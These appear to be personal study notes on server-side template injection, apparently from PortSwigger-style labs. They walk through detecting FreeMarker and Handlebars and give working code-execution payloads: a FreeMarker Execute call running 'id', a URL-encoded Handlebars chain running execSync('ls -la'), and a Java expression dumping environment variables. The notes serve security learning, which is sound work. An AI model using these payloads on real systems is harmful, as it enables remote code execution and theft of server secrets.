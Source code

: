 - Identify parameters that are reflected (seen) on the response to inject SSTI 
- Use ${7*7} to see the math expression is evaluated
- Use ${foobar} to find an error and find Freemaker is the template engine
- Research on the FAQ -> look for "security" ->  Can I allow users to upload templates and what are the security implications? 
- Find there about the new() built-in -> use to create a variable of a certain TemplateModel implementation.
- Research about TemplateModel FreeMarker to find API docs
https://freemarker.apache.org/docs/api/freemarker/template/TemplateModel.html
- There we see Execute method -> research here https://portswigger.net/research/server-side-template-injection
- how to execute code --> ${"freemarker.template.utility.Execute"?new()("id")}

#### Look for known exploits
Once you identify the template engine -> browse the web for any vulns that others may have already discovered.
# EXAMPLE: Server-side template injection in an unknown language with a documented exploit
- Find requests with parameters.
- Fuzz them with ${{&#x3C;%[%'"}}%\                                                                                           '
- Find that /?message=${{&#x3C;%[%'"}}%\    'gives an error and discloses Handlebars template engine
- Research basic injection 
https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/JavaScript/#handlebars-basic-injection
- Put it together and URL encode it:
/?message={{%23with+"s"+as+|string|}}++{{%23with+"e"}}++++{{%23with+split+as+|conslist|}}++++++{{this.pop}}++++++{{this.push+(lookup+string.sub+"constructor")}}++++++{{this.pop}}++++++{{%23with+string.split+as+|codelist|}}++++++++{{this.pop}}++++++++{{this.push+"return+require('child_process').execSync('ls+-la')%3b"}}++++++++{{this.pop}}++++++++{{%23each+conslist}}++++++++++{{%23with+(string.sub.apply+0+codelist)}}++++++++++++{{this}}++++++++++{{/with}}++++++++{{/each}}++++++{{/with}}++++{{/with}}++{{/with}}{{/with}}


'########################################## EXPLORE
If no workable exploit -> explore the environment and try to discover all the objects to which you have access. 
Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all
# For example, in Java-based templating languages, you can sometimes list all variables in the env:
${T(java.lang.System).getenv()}
# This can form the basis for creating a shortlist of potentially interesting objects and methods to investigate further. 

#### Developer-supplied objects
Websites contain both built-in objects provided by the template and custom, site-specific objects that have been
supplied by the web developer. Pay attention to these non-standard objects because they are especially likely 
to contain sensitive information or exploitable methods. 
As these objects can vary between different templates within the same website, be aware that you might need 
to study an object behavior in the context of each distinct template before you find a way to exploit it.